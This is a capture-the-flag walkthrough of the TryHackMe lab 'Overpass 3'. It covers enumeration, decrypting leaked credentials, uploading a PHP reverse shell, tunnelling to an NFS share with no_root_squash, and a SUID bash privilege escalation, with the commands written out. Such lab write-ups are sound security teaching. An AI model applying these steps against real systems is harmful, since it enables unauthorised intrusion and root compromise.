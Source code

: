 ```yaml
---
title: "Overpass 3 - TryHackMe"
date: "2021-01-24"
categories: 
  - "tryhackme"
---
```


This is write-up for tryhackme room name [overpass3](https://tryhackme.com/room/overpass3hosting)

Difficulty Level - Medium

Start with Nmap scan as usual.

```
nmap -A -oN initial $IP
```

![](/Images/overpass3/Screenshot-2021-01-24-181849.png)

FTP won't allow anonymous login so we need to enumerate further. Run gobuster

![](/Images/overpass3/Screenshot-2021-01-24-182318.png)

In **backups** directory we can find ZIP file, when unzip the file we able to find GPG encrypt Excel file and key.

first need to import the gpg key, then we can decrypt

```
$ gpg --import priv.key

$ gpg CustomerDetails.xlsx.gpg
```

open the file we get some customer details with passwords

![](/Images/overpass3/Screenshot-2021-01-24-18-36-01.png)

we have couple of username and password, when we try to those credential for SSH login it fail, but FTP login for **Paradox** user works.

![](/Images/overpass3/Screenshot-2021-01-24-184217.png)

The **backups** directory look similar to what we saw in browser. we can upload shell file and get reverse shell.

To execute the file add this to URL. replace your shell name with "php-reverse-shell.php"

```
http://$IP/backups/../php-reverse-shell.php
```

![](/Images/overpass3/Screenshot-2021-01-24-185313.png)

got shell successfully, we know paradox password worked in FTP so he might used same password for user login try to change user.

User flag in james home so we need to change user to james also upload **linpeas.sh** and more enumeration

we will find these details.

```
#no root squash for NFS
/home/james *(rw,fsid=0,sync,no_root_squash,insecure)

#ssh public key
id_rsa.pub 

#local listen open port
program vers proto   port  service
    100000    4   tcp    111  portmapper
    100000    3   tcp    111  portmapper
    100000    2   tcp    111  portmapper
    100000    4   udp    111  portmapper
    100000    3   udp    111  portmapper
    100000    2   udp    111  portmapper
    100005    1   udp  20048  mountd
    100005    1   tcp  20048  mountd
    100005    2   udp  20048  mountd
    100005    2   tcp  20048  mountd
    100005    3   udp  20048  mountd
    100005    3   tcp  20048  mountd
    100024    1   udp  42167  status
    100024    1   tcp  34731  status
    100003    3   tcp   2049  nfs
    100003    4   tcp   2049  nfs
    100227    3   tcp   2049  nfs_acl
    100021    1   udp  41637  nlockmgr
    100021    3   udp  41637  nlockmgr
    100021    4   udp  41637  nlockmgr
    100021    1   tcp  33285  nlockmgr
    100021    3   tcp  33285  nlockmgr
    100021    4   tcp  33285  nlockmgr
```

first need to create SSH public key and then upload using FTP and insert it to **authorized\_keys**.

![](/Images/overpass3/Screenshot-2021-01-24-192554.png)

now need to port tunnel into our local host so we can mount the NFS share.

```
sudo ssh -L 111:127.0.0.1:111 -L 2049:127.0.0.1:2049 -L 20048:127.0.0.1:20048 -i id_rsa paradox@IP
```

![](/Images/overpass3/Screenshot-2021-01-24-200523.png)

after that mount share with this command.

```
sudo mount -t nfs -o nolock localhost:/home/james /tmp/mount
```

then go to mounted folder path in your PC, you can see all the files, now we can easily escalate privilege.

## Privilege Escalation

James home directory inside SSH folder can find private key for james use that and login as james.

![](/Images/overpass3/Screenshot-2021-01-24-201305.png)

after sucessful login move to local PC and copy-paste "/bin/bash" mounted folder, then we are going to set **SUID** for bash.

![](/Images/overpass3/Screenshot-2021-01-24-202823.png)

we successfully set bash as SUID now execute and get root shell.

![](/Images/overpass3/Screenshot-2021-01-24-202916.png)

Finally Root!!

Happy Hacking!!
